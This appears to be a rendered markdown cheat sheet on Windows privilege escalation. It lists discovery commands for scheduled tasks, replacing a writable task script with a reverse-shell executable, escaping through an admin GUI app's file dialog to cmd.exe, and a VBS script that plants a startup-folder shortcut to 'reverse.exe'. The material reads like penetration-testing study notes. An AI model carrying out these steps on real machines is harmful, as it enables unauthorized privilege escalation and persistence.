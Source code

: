 #### Scheduled Tasks compromise

* Discovery

`schtasks /query /fo LIST /v`

or 

``` powershell

Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName, TaskPath, State
```

* Find scripts use by scheduled task
* Check permissions on script

`accesschk.exe /accepteula -quv user scheduled_script.ps1`

* If writeable, replace this script with a malicious executable to obtain reverse shell

* Wait until task executes

#### Insecure GUI Apps

* find an app with GUI file access ran by admin

```cmd

tasklist /V | findstr admin_GUI.exe

```

* once found that app, click on "Open File..." and type in the navigation bar on top of the window `file://c:/windows/system32/cmd.exe`

#### Startup Folder compromise

* System startup folder is located in `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup` and if shortcut .lnk is place wihin then program linked shall autostart at reboot.

* This can be exploited by creating and launching a .vbs script and waiting until admin logs in 

```vbs
# create_shortcut.vbs

Set oWS = WScript.CreateObject("WScript.Shell")
sLinkFile = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\reverse.lnk"
Set oLink = oWS.CreateShortcut(sLinkFile)
oLink.TargetPath = "C:\PrivEsc\reverse.exe"
oLink.Save
```

* Activate this script `cscript create_shortcut.vbs`
* Wait for admin

#### Non MS Apps exploitation

* On ExploitDB select `Windows -> Apps -> Privesc -> Has App`
* Look for possbible vulnerable apps using `seatbelt.exe` on victim or `tasklist /V` or `winpeas.exe quiet processinfo`
* find the exploit on `exploit.db` as shown above
